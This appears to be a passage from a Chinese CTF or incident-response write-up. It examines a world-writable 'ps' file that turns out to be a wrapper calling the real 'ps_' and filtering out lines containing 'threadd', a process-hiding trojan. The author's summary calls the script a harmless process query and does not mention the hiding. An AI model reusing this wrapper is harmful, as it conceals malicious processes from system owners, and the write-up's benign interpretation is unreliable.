   

发现了一个特别的命令，rwxrwxrwx权限，意思是这个命令具有读取，写入和执行权限，并且对所有用户都开放

我们看一下这个ps命令

```
cat ps
```



脚本解析：

#!/bin/bash 表示这是一个 Bash 脚本，用来执行后续的命令。

- 变量设置：

oldifs="$IFS"：保存旧的字段分隔符（IFS）值。
IFS='\$n'：设置新的字段分隔符为\$n（这里可能是一个笔误，正常应该是换行符\n，但写法上看起来可能是在尝试定义一个特殊分隔符）。

- 命令执行和处理：

result=$(ps_ $1 $2 $3|grep -v 'threadd' )：执行 ps_ 命令，并使用 grep 命令过滤掉包含’threadd’的行，将结果存储在 result 变量中。

for v in $result;：对 $result 中的每个变量 v 进行循环处理。

echo -e "$v\t";：输出每个变量 v，并在末尾添加一个制表符。

- 恢复原始设置：

IFS="$oldifs"：恢复原始的字段分隔符设置。

分析总结：

这段脚本似乎是为了获取 ps_ 命令的输出，并按行处理和输出结果。ps_ 命令的具体功能和输出内容在这里并未详细说明，但可以我们可以推测这是一个对系统进程进行查询和处理的脚本。

把注释内容进行提交就可以了
